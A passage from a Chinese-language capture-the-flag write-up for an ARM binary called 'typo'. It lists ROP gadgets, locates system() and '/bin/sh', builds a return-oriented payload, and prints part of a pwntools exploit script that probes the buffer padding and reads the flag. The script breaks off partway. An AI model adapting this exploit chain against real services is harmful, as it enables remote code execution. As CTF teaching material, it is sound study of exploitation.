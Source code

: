 ```
0x000212ec : pop {r4, r5, r6, r7, fp, pc}
0x000082e8 : pop {r4, r5, r6, r7, pc}
0x00043110 : pop {r4, r5, r6, r7, r8, fp, pc}
0x00011648 : pop {r4, r5, r6, r7, r8, pc}
0x00048e9c : pop {r4, r5, r6, r7, r8, sb, fp, pc}
0x0000a5a0 : pop {r4, r5, r6, r7, r8, sb, pc}
0x0000870c : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x00011c24 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
0x000553cc : pop {r4, r5, r6, r7, r8, sl, pc}
0x00023ed4 : pop {r4, r5, r7, pc}
0x00023dbc : pop {r4, r7, pc}
0x00014068 : pop {r7, pc}

Unique gadgets found: 29
```

我们刚才又顺利的恢复了符号表，获取了system函数的位置。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-01-30-091509.png)

接下来我们检索程序中的`/bin/sh`字符串。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-01-30-091622.png)

于是，我们构造`payload='A'*padding + p32(0x00020904) + p32(0x0006c384) + p32(0x0006c384) + p32(0x000110B4)`

#### <a class="reference-link" name="Final%20exploit"></a>Final exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='arm'

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./")
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./typo")

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_padding_length():
    length = 0
    while True:
        sh = get_sh()
        sh.recvuntil('if you want to quitn')
        sh.send('n')
        sh.recvrepeat(0.3)
        sh.sendline('A' * length + p32(0x8F00))
        try:
            if 'if you want to quitn' in sh.recvrepeat(0.3):
                return length
            sh.sendline('~')
            log.info('When padding is ' + str(length) + ', Success exit!')
            length = length + 1
            sh.close()
```